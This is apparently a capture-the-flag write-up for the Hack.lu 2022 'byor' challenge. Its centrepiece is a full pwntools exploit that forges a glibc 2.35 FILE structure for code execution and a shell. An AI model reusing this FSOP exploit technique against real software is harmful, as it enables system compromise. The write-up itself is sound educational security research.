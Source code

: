 ## byor
was a pwn challenge from Hack.lu 2022 edition

the challenge give us a leak of stdout address in libc

and permit us to overwrite `stdout`.

the goal was to bypass all new protections in libc-2.35 to revive FSOP code execution..

kylebot made some wonderfull research on this task,

by exploring the various path to achieve code execution with angr,

I recommend to read his blog --> [https://blog.kylebot.net/2022/10/22/angry-FSROP/](https://blog.kylebot.net/2022/10/22/angry-FSROP/)

most of the path he found were using `_wide_data` structure to achieve code execution.

so this challenge overwrite `_wide_data` and we have to found a another way to get code execution

a quick look at the reverse:

![](https://github.com/nobodyisnobody/write-ups/raw/main/Hack.lu.CTF.2022/pwn/byor/pics/reverse.png)


working with teammate VoidMercy, and UDP, we found a path via `_IO_wfile_underflow`

and here is the solution to this task..


```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("./byor_patched")
libc = ELF("./libc.so.6")

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)

host, port = "flu.xxx", "11801"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path])

libc.address = int(rcu(': ', '\n'),16)-libc.sym['_IO_2_1_stdout_']
logbase()

# some constants
stdout_lock = libc.address + 0x21ba70	# _IO_stdfile_1_lock  (symbol not exported)
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
# our gadget
gadget = libc.address + 0x0000000000163830 # add rdi, 0x10 ; jmp rcx

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh\x00')	# will be at rdi+0x10
fake._lock=stdout_lock
fake._codecvt= stdout + 0xb8
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)

p.send(bytes(fake))
# enjoy shell
p.interactive()
```


